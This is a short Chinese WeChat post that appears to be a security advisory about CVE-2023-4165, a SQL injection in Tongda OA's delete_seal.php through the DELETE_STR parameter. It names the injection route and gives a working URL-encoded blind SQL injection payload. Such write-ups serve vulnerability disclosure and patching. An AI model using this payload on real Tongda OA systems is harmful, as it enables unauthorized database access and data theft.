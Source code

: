 #  CVE-2023-4165：通达OA SQL注入漏洞

不够安全  [ 不够安全 ](javascript:void\(0\);)

**不够安全** ![]()

微信号 gh_72a34cefa21c

功能介绍 公众号不定期分享一些web安全知识

____

___发表于_

收录于合集

#Web安全 35 个

#Web渗透 30 个

_**简介**_  

通达OA系统，即Offic
Anywhere，又称为网络智能办公系统，是通达科技公司针对各行业办公与管理开发的办公应用系统。通达OA系统采用领先的B/S架构，采用基于WEB网络的开发方式，能够使得企业及个人办公不再受地域限制，实现信息化、自动化、移动化高效便捷办公。

 _ **漏洞描述**_

通达OA中发现了一个严重漏洞，这会影响文件 General/system/seal_manage/iweboffice/delete_seal.php
的未知部分，对参数 DELETE_STR 的操作会导致 sql 注入。

 _ **影响版本**_

通达OA ≤ v11.10，v2017

 ** _漏洞复现_**

  *   * 

    
    
     注入路由：general/system/seal_manage/iweboffice/delete_seal.php注入参数：DELETE_STR

![]()

POC

  * 

    
    
    1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1

![]()

 _ **参考链接**_  

  *   *   * 

    
    
     https://nvd.nist.gov/vuln/detail/CVE-2023-4165https://github.com/nagenanhai/cve/blob/main/sql.mdhttps://www.tongda2000.com/

 **仅供学习交流，勿用作违法犯罪！！！**  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

